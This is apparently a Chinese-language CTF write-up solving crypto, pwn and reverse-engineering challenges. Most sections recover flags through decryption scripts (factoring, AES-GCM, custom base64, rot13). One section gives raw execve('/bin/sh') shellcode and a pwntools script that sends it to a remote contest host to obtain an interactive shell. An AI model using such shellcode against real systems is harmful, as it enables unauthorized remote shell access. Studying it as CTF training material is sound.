# `easymath`​

Ai 大法(doge)

```python
from sympy import symbols, solve

# 定义变量
x = symbols('x')

# 多项式系数
coeff_2 = 15264966144147258587171776703005926730518438603688487721465
coeff_1 = 76513250180666948190254989703768338299723386154619468700730085586057638716434556720233473454400881002065319569292923
N = 125440939526343949494022113552414275560444252378483072729156599143746741258532431664938677330319449789665352104352620658550544887807433866999963624320909981994018431526620619

# 定义多项式
polynomial = x**3 - coeff_2*x**2 + coeff_1*x - N

# 求解多项式的整数根
roots = solve(polynomial, x)
print("N的素因子 n0, n1, n2:", roots)
print(roots[0]*roots[1]*roots[2]==125440939526343949494022113552414275560444252378483072729156599143746741258532431664938677330319449789665352104352620658550544887807433866999963624320909981994018431526620619)

from Crypto.Util.number import long_to_bytes
from sympy.ntheory.modular import solve_congruence
import itertools

# 已知密文 c
c = 24884251313604275189259571459005374365204772270250725590014651519125317134307160341658199551661333326703566996431067426138627332156507267671028553934664652787411834581708944

# N 的三个素因子
n0 = 3868765709106144154703556118635822400623994075212553582411
n1 = 5487564316951417093934647798659941512646442958127439071827
n2 = 5908636118089697338533572785710162817248001570348495067227

# 计算平方根 (适用于 p ≡ 3 mod 4)
def sqrt_mod(c, p):
    r = pow(c, (p + 1) // 4, p)
    return (r, p - r)  # 返回两个解

# 计算所有可能的 flag mod ni
roots_n0 = sqrt_mod(c, n0)
roots_n1 = sqrt_mod(c, n1)
roots_n2 = sqrt_mod(c, n2)

# 遍历所有可能的组合
for r0, r1, r2 in itertools.product(roots_n0, roots_n1, roots_n2):
    flag, _ = solve_congruence((r0, n0), (r1, n1), (r2, n2))
    flag_bytes = long_to_bytes(flag)

    if b'{' in flag_bytes.lower():  # 判断是否包含 'flag' 关键字
        print("找到正确 flag:", flag_bytes.decode())
        break

```

‍

# `VN_Lang`

​​

# `签个到吧`​

​​

buf 可执行，直接发送 shellcode 即可

​​

执行前除了 rdi 全被置为 0，恰好便于构造 shellcode

```python
from pwn import *

r = remote("node.vnteam.cn",44184)

shellcode = "\x48\x83\xc7\x0e\xb0\x3b\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00"

print(len(shellcode))
payload = shellcode

r.sendlineafter(b"strength ",payload)

r.interactive()
```

# `Hook Fish`

​​

明显的动态加载 dex

dex 很贴心，解密算法也给了

​​

直接执行下 decode，得到第一次加密后的密文

​​

第一层加密比较简单，一个交换，两个单字节加密

​​

```java
def decrypt(encrypted_str):
    recovered_chars = []
    for i, ch in enumerate(encrypted_str):
        E = ord(ch)
        if E < 103:
            orig = E - (i % 4) + ord('1')
        else:
            orig = E - ord('7') - (i % 10)
        recovered_chars.append(chr(orig))

    def code(a, index):
        if index >= len(a) - 1:
            return
        a[index], a[index+1] = a[index+1], a[index]
        code(a, index + 2)

    char_list = list("".join(recovered_chars))
    code(char_list, 0)
    hex_str = "".join(char_list)

    enc = bytes.fromhex(hex_str)

    origin = bytes((b - 68) % 256 for b in enc)

    originstr = origin.decode('utf-8')

    return originstr


encrypted = "0qksrtuw0x74r2n3s2x3ooi4ps54r173k2os12r32pmqnu73r1h432n301twnq43prruo2h5"
decrypted = decrypt(encrypted)
print(decrypted)

```

解密得到 flag

​​

# `Fuko's starfish`

​​

exe 加载了 dll，分析了下加密在 dll 中

​​

发现 aes 特征，进而发现 aes 的加密函数

​​

依托，不过还是可以看出 aes 扩展密钥的第一步，发现 key 来自

​​

有几个已经初始化，有的没有，看看引用

​​

在这里发现初始化把所有的 key 都换掉了

简单写个脚本

​​

返回加密函数，发现反调试

​​

如果被调试则不进行异或，上面的 key 经过异或得到真正的 key

​​

找到密文进行解密

​​

得到 flag

# `kotlindroid`​

分析代码，发现主加密逻辑，使用 aes-gcm-nopadding 加密

​​

用了库函数？直接梭

​​

​​

根据题目提示，发现密文的前 6 字节是 iv，接着的 16 字节是 tag

找个脚本解密得到 flag

```python
from Crypto.Cipher import AES
import base64

def decrypt(ciphertext_base64, key, aad):
    # 解码 Base64 编码的密文
    ciphertext = base64.b64decode(ciphertext_base64)
    # 假设 IV 长度为 12 字节，GCM 标签长度为 16 字节
    iv = ciphertext[:6]
    tag = ciphertext[-16:]
    encrypted_data = ciphertext[6:-16]

    # 创建 AES/GCM 解密器
    cipher = AES.new(key, AES.MODE_GCM, nonce=iv)
    # 设置额外认证数据
    cipher.update(aad)

    try:
        # 解密数据并验证标签
        decrypted_data = cipher.decrypt_and_verify(encrypted_data, tag)
        return decrypted_data.decode('utf-8')
    except ValueError:
        print("认证标签验证失败，数据可能被篡改。")
        return None


if __name__ == "__main__":
    # 密钥，长度必须为 16、24 或 32 字节（对应 AES-128、AES-192 或 AES-256）
    key = b'atrikeyssyekirta'
    # 假设这是 Base64 编码的加密数据
    ciphertext_base64 = 'MTE0NTE0HMuJKLOW1BqCAi2MxpHYjGjpPq82XXQ/jgx5WYrZ2MV53a9xjQVbRaVdRiXFrSn6EcQPzA=='
    # 额外认证数据
    aad = b'mysecretadd'

    decrypted_text = decrypt(ciphertext_base64, key, aad)
    if decrypted_text:
        print("解密结果:", decrypted_text)
```

​​

# AndroidLux

java 层没有东西，只有初始化 busybox 和启动 env

​​

assets 目录下的 env 解压得到 env 文件

​​

似乎是一个简单的 base64 编码

base64 是变种

​​

位移变了，码表也变了，解密算法

```python
def decode_custom_base64(encoded):
    base64_chars = "TUVWXYZabcdefghijABCDEF456789GHIJKLMNOPQRSklmnopqrstuvwxyz0123+/"
    base64_table = {char: idx for idx, char in enumerate(base64_chars)}

    # 计算填充数量并去除填充符
    pad_count = encoded.count('=')
    encoded_clean = encoded.rstrip('=')

    # 计算原始数据长度
    n = len(encoded_clean)
    if pad_count == 0:
        original_len = (n * 3) // 4
    elif pad_count == 1:
        original_len = (n * 3 + 2) // 4
    elif pad_count == 2:
        original_len = (n * 3 + 1) // 4
    else:
        original_len = (n * 3) // 4

    # 转换为索引列表
    indices = []
    for c in encoded_clean:
        if c in base64_table:
            indices.append(base64_table[c])
        else:
            indices.append(0)  # 处理无效字符，假设为0

    decoded = bytearray()
    for i in range(0, len(indices), 4):
        chunk = indices[i:i+4]
        while len(chunk) < 4:
            chunk.append(0)  # 不足四部分补0

        c1, c2, c3, c4 = chunk

        # 解码第一个字节
        a = (c1 << 2) | (c2 & 0x03)
        decoded.append(a)

        # 解码第二个字节
        b_high = (c2 & 0x3C) >> 2
        b_low = c3 & 0x0F
        b = (b_high << 4) | b_low
        decoded.append(b)

        # 解码第三个字节
        c_high = (c3 >> 4) & 0x03
        c = (c_high << 6) | c4
        decoded.append(c)

    # 根据原始长度截断结果
    return bytes(decoded[:original_len])

# 示例用法
encoded_str = "56BM"  # 编码后的字符串
decoded_data = decode_custom_base64(encoded_str)
print(decoded_data)
```

解密密文发现解不出来，在这里卡了好久，最后也没找到对密文和输入修改的地方

所以我把 env patch 掉

​​

将返回值修改为输入或者输出

然后把 env 替换掉，输入数据

​​

​​

得到上述数据，很有规律

输入循环加减 1，应该是跟 1 异或

根据输出，可以发现正确的密文开始应该是 ECIVEA40，而程序中的是 RPVIRN40

数字没发生变化，注意到 I 和 V 是相对的，然后发现对应的字母相差 0xd

​​

整理下，发现对应关系是这样的

​​

哦，rot13？

尝试解密密文

​​

哦呼，对上了

​​

然后异或 1

得到 flag

​​

实际修改位置在`ld.so.preload`​ 加载的`/usr/libexec/libexec.so`​

​​

​​

对两个系统函数进行 hook，修改了内容

# `抽奖转盘`

赛后出的，还是太菜了

鸿蒙逆向没法调试，可以用 deveco 开虚拟机看看界面

主界面输入框加按钮

​​

找到回调函数，跟进

​​

直接调用 native 层

​​

rc4 多进行一步异或

再进行 标准 base64

​​

这里从 index 中获取加密后的数据

​​

再进行一步操作，然后比较

​​

最后解密即可
